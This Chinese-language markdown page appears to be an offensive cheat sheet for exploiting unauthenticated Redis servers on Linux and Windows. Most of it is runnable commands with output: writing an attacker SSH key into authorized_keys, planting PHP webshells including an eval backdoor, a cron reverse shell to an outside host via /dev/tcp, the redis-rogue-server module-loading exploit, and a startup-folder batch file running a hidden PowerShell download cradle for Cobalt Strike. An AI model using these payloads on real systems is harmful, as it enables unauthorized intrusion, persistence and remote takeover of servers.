


# Redis 6379端口

## 关于

<a-checkbox checked>Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上</a-checkbox></br>

<a-checkbox checked>如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。</a-checkbox></br>

<a-checkbox checked>攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器</a-checkbox></br>


## 攻击方法

要成功的利用Redis未授权访问的漏洞需要如下几点

<a-checkbox checked>redis服务以root账户运行</a-checkbox></br>

<a-checkbox checked>redis无密码或弱密码进行认证</a-checkbox></br>

<a-checkbox checked>redis监听在0.0.0.0公网上或内网中</a-checkbox></br>


首先可以使用 Nmap的检测脚本 对 Redis进行未授权检测

```php
nmap -A -p 6379 –script redis-info 192.168.0.126
```

也可以使用其他工具进行扫描


连接数据库查看 info, 确定未授权访问

```php
redis-cli -h 192.168.0.126 -p 6379
```




## Linux 获取权限

### SSH公钥

生成密钥在攻击机中

```php
ssh-keygen -t rsa
```


将公钥导入key.txt文件（前后用\n\n换行，避免和Redis里其他缓存数据混合）

```php
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```


再把 key.txt 文件内容写入目标主机的缓冲里

```php
cat key.txt | redis-cli -h 192.168.0.126 -x set test 
```


再通过设置参数，写入指定文件

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /root/.ssh
OK
192.168.0.126:6379> config set dbfilename authorized_keys
OK
192.168.0.126:6379> keys *
1) "test"
192.168.0.126:6379> get test
"\n\n\nssh-rsa xxxxxxxxxxxx \n\n\n\n"
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```


- ✅如上则为成功写入SSH密钥文件，攻击机可无需密码远程连接目标主机SSH


### WebShell

当SSH不允许远程登录时，也可以通过写入 Web目录控制目标主机

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /var/www/html
OK
192.168.0.126:6379> config set dbfilename xxx.php
OK
192.168.0.126:6379> set web "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.0.126:6379> save
OK
```


### 定时任务

也可以通过写入定时任务反弹Shell，获取权限

<a-checkbox checked>攻击机监听端口 </a-checkbox></br>

<a-checkbox checked>nc -lvvp 9999</a-checkbox></br>

```php
192.168.0.126:6379> set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.140/9999 0>&1\n\n"
OK
192.168.0.126:6379> config set dir /var/spool/cron
OK
192.168.0.126:6379> config set dbfilename root
OK
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```


### 主从复制

<a-checkbox checked>如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。</a-checkbox></br>

<a-checkbox checked>为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机</a-checkbox></br>

<a-checkbox checked>其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式</a-checkbox></br>

Redis未授权访问在4.x/5.0.5以前版本，我们可以使用主/从模式加载远程模块，通过动态链接库的方式执行任意命令。


关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```


```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```





## Windows 获取权限

### Webshell

<a-checkbox checked>攻击成功的前提为：需要准确的知道Web目录位置</a-checkbox></br>

<a-checkbox checked>可通过 phpinfo 或者 网站报错得知</a-checkbox></br>


这里测试的目标路径为：`C:\phpstudy_pro\WWW`

```php
192.168.0.123:6379> config set dir C:\phpstudy_pro\WWW
OK
192.168.0.123:6379> config set dbfilename shell.php
OK
192.168.0.123:6379> set test "<?php @eval($_POST['shell'])?>"
OK
192.168.0.123:6379> save
OK
```


<a-checkbox checked>成功写入木马，并可连接控制服务器</a-checkbox></br>


### 启动项

攻击方法与写入Linux启动项相似

<a-checkbox checked>需要高权限账户</a-checkbox></br>

<a-checkbox checked>Windows 启动项目录为:</a-checkbox></br>

<a-checkbox checked>C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/</a-checkbox></br>

<a-checkbox checked>C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp</a-checkbox></br>


首先创建 CobaltStrike监听

<a-checkbox checked>`Attacks -> Web Drive-By -> Script Web Delivery`</a-checkbox></br>


生成 Powershell 语句

```php
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

 执行Redis命令写入语句

```php
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```

当主机重启时就会执行命令上线 CobaltStrike


